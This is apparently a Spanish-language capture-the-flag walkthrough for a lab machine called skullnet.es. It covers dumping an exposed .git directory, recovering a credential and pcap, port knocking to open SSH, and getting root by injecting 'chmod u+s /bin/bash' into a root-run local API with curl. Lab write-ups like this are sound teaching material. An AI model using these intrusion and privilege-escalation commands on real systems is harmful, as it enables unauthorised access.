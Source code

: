 nmap: 80

![image](https://github.com/user-attachments/assets/bbbb702f-524b-4b3b-9c7e-66352f5a510b)

---
agregamos "skullnet.es" en nano /etc/host y entramos a la pagina

![image](https://github.com/user-attachments/assets/01fa9c26-8511-47e1-8c79-b8ea4e2f6d74)

no hay nada, hacemos un nmap mas profundo en el puerto 80
da un git. quedaría así la búsqueda: http://skullnet.es/.git/

![image](https://github.com/user-attachments/assets/9df19053-5d80-4100-96f7-3ba56452a335)

quedamos donde hay muchos archivos y nos pasamos los archivos a nuestra terminal

![image](https://github.com/user-attachments/assets/324ea04e-2e75-4fa4-a049-594c42842120)

lo pasamos con: 
> wget -r http://skullnet.es/.git/

hacemos un "git log" para ver los archivos modificados y da dos:
> fix y First commit

hacemos un: git checkout -- . 

hacemos otra vez el "git log" y nos copiamos esto: 
>648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

![[gitlog.png]]

colocamos:
>git reset 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

y nos da: 

     - Unstaged changes after reset:
     - D authentication.txt
     - D network.pcap

colocamos "git diff" y vemos los cambios que se han realizado

volvemos hacer un "git checkout -- ." y tenemos los archivos

entramos al authentication.txt y nos da:

     - cat authentication.txt 
     - Hello skulloperator, as you know, we are implementing a new authentication mechanism to avoid brute-forcing...
     - This credential and the attached network file will be enough. I know you will get it ;)
     - +%7nj^g!DQxp]a>c4v&0

el final del resultado de esos paso: 
![[resultado1.png]]

la ultima es una posible contraseña, pero igual tenemos el archivo de red adjuntado que es el "network.pcap" que es un wireshark
lo abrimos: wireshark network.pcap

abrirá wireshark con las reglas capturadas y las revisaremos

las primeras 5 peticiones son mas color gris y hace peticiones en los puertos:
> 1000, 12000, 5000, 22 y 38118
![[wire.png]]

como el puerto 22 esta cerrado hacemos un: 

     knock -v 172.18.0.2 1000 12000 5000 -d 4

se abrirá el puerto 22 y tenemos el usuario como contraseña que menciono antes: 
> skulloperator / +%7nj^g!DQxp]a>c4v&0

y estamos dentro
![[proceso1.png]]
ahora escalamos

al hacer un sudo -l o find, no muestra nada

al hacer un "ps -faux" muestra que se ejecuta un "cron -P" donde se ejecuta un archivo : 
>bin/sh -c python3 /var/www/skullnet.es/skullnet_api.py
![[psaux.png]]

ingresamos a la ruta, entramos con nano al skullnet_api, pero no tenemos permisos de escritura pero si de lectura

dentro muestra que se abre un puerto 8081 que dentro se pueden ejecutar comando como "ls" o "whoami" y para que funcione se tiene que mandar un token de autorización que nos permita ejecutar y dentro hay una "AUTH_KEY_BASE64 = "d2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=="
"
![[nano1.png]]

lo sacamos con:

    echo 'd2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=' | base 64 -d 

>nos da: we_are_bones_513546516486484  
![[base1.png]]

en el código aparece que hay que iniciar con una palabra que comience por "basic"

ejecutamos el comando:

    curl 127.0.0.1:8081?exec?=whoami -H "authorization: Basic we_are_bones_513546516486484"

ahora en el terminal victima hacemos un: 
 
    curl 127.0.0.1:8081?exec=whoami -H "Authorization: Basic we_are_bones_513546516486484"

>que nos mostrara: root
![[root1.png]]

seguimos probando aparte del whoami, mandamos un id para esta pagina: https://www.urlencoder.org/

quedaría: whoami%3Bid

y ahora quedaría así: 

    curl 127.0.0.1:8081?exec=whoami%3Bid -H "Authorization: Basic we_are_bones_513546516486484"

que nos da los grupos con el id
![[grupo1.png]]

ya que funciona le intentamos dar permisos así:
> whoami;chmod u+s /bin/bash

y quedaría así el código: 

    curl 127.0.0.1:8081?exec=whoami%3Bchmod%20u%2Bs%20%2Fbin%2Fbash -H "Authorization: Basic we_are_bones_513546516486484"

lo lanzamos aparece solo root, vemos si cambio los permisos 
> ls -ls /bin/bash

ahora aparece en rojo, lanzamos un bash -p
![[rootfinal.png]]
y somos root! 

